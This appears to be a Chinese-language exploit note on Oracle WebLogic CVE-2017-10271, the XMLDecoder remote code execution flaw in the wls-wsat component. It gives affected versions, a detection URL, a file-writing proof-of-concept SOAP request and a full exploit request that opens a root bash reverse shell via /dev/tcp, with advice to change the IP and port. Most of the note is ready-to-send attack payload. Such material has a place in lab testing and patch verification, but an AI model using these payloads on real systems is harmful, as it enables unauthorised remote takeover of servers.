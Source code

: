 # 相关
CVE-2017-10271
- 受影响版本：10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0
- 漏洞描述：WebLogic WLS组件中存在CVE-2017-10271远程代码执行漏洞，可以构造请求对运行WebLogic中间件的主机进行攻击，近期发现此漏洞的利用方式为传播挖矿程序。
- 漏洞检测：访问http://host:7001/wls-wsat/CoordinatorPortType返回如下，则可能存在此漏洞
![title](https://i.loli.net/2019/05/20/5ce24e619807844967.jpg)

# 验证环境搭建
使用vulhub的cve-2018-2628搭建

# POC
通过写入一个文件的形式进行简单验证
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 748

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
         <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter"> 
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>hello_world</string></void><void method="close"/>
                    </object>
            </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
</soapenv:Envelope>
```
写入的路径是`~/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt`
访问验证的路径是`/wls-wsat/test.txt`
# EXP
反弹shell,注意修改IP和端口，被编码的尖括号和&不要修改回去，得到的shell是root权限
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 10.203.87.64:7001
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope
    xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext
            xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.4.0" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/127.0.0.1/7777 0&gt;&amp;1</string>
                        </void>
                    </array>
                    <void method="start"/></void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```